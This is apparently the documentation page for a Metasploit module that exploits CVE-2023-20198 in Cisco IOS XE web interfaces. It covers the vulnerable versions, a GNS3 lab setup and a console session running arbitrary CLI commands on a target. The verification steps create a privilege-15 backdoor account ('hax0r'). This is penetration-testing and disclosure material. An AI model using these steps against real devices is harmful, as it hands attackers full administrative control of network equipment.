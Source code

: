 ## Vulnerable Application
This module leverages CVE-2023-20198 against vulnerable instances of Cisco IOS XE devices which have the
Web UI exposed. An attacker can execute arbitrary CLI commands with privilege level 15.

By default [CLI commands](https://www.cisco.com/E-Learning/bulk/public/tac/cim/cib/using_cisco_ios_software/02_cisco_ios_hierarchy.htm)
are run in the Global configuration mode. To drop down to Privileged EXEC mode, you can preface your command
with the `exit` keyword followed by an (escaped) newline, e.g. To run the command `show version` in Privileged
EXEC mode, the CMD must be `exit\\nshow version`. To drop to User EXEC mode you can preface your command with
two `exit` keywords, e.g. `exit\\nexit\\nshow ip interface brief`. To run a command in Global configuration
mode, just set the `CMD` option to the command you want to run, e.g. `username hax0r privilege 15 password hax0r`.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
  can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
  to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
  how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000V instance as a QEMU device.
  * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, who's adapter was bridged
  to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
  be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `run`
6. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "exit\\nshow version"
CMD => exit\nshow version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting     Required  Description
   ----     ---------------     --------  -----------
   CMD      exit\nshow version  yes       The Global configuration CLI command to execute. To drop to Privileged EXEC mode, preface your CMD with exit\\n, e.g "exit\\nshow version"
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443                 yes       The target port (TCP)
   SSL      true                no        Negotiate SSL/TLS for outgoing connections
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57

[*] 
**CLI Line # 2: Cisco IOS XE Software, Version 16.12.03
**CLI Line # 2: Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
**CLI Line # 2: Technical Support: http://www.cisco.com/techsupport
**CLI Line # 2: Copyright (c) 1986-2020 by Cisco Systems, Inc.
**CLI Line # 2: Compiled Mon 09-Mar-20 21:50 by mcpre
**CLI Line # 2: Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
**CLI Line # 2: All rights reserved.  Certain components of Cisco IOS-XE software are
**CLI Line # 2: licensed under the GNU General Public License ("GPL") Version 2.0.  The
**CLI Line # 2: software code licensed under GPL Version 2.0 is free software that comes
**CLI Line # 2: with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
**CLI Line # 2: GPL code under the terms of GPL Version 2.0.  For more details, see the
**CLI Line # 2: documentation or "License Notice" file accompanying the IOS-XE software,
**CLI Line # 2: or the applicable URL provided on the flyer accompanying the IOS-XE
**CLI Line # 2: software.
**CLI Line # 2: ROM: IOS-XE ROMMON
**CLI Line # 2: router uptime is 3 hours, 59 minutes
**CLI Line # 2: Uptime for this control processor is 4 hours, 2 minutes
**CLI Line # 2: System returned to ROM by reload
**CLI Line # 2: System image file is "bootflash:packages.conf"
**CLI Line # 2: Last reload reason: reload
**CLI Line # 2: This product contains cryptographic features and is subject to United
**CLI Line # 2: States and local country laws governing import, export, transfer and
**CLI Line # 2: use. Delivery of Cisco cryptographic products does not imply
**CLI Line # 2: third-party authority to import, export, distribute or use encryption.
**CLI Line # 2: Importers, exporters, distributors and users are responsible for
**CLI Line # 2: compliance with U.S. and local country laws. By using this product you
**CLI Line # 2: agree to comply with applicable laws and regulations. If you are unable
**CLI Line # 2: to comply with U.S. and local laws, return this product immediately.
**CLI Line # 2: A summary of U.S. laws governing Cisco cryptographic products may be found at:
**CLI Line # 2: http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
**CLI Line # 2: If you require further assistance please contact us by sending email to
**CLI Line # 2: export@cisco.com.
**CLI Line # 2: License Level: ax
**CLI Line # 2: License Type: N/A(Smart License Enabled)
**CLI Line # 2: Next reload license Level: ax
**CLI Line # 2: Smart Licensing Status: UNREGISTERED/No Licenses in Use
**CLI Line # 2: cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
**CLI Line # 2: Processor board ID 9OVFUOGPESO
**CLI Line # 2: 4 Gigabit Ethernet interfaces
**CLI Line # 2: 32768K bytes of non-volatile configuration memory.
**CLI Line # 2: 3012164K bytes of physical memory.
**CLI Line # 2: 6188032K bytes of virtual hard disk at bootflash:.
**CLI Line # 2: 0K bytes of WebUI ODM Files at webui:.
**CLI Line # 2: Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="exit\\nshow clock"
[*] Running module against 192.168.86.57

[*] 
**CLI Line # 2: *15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```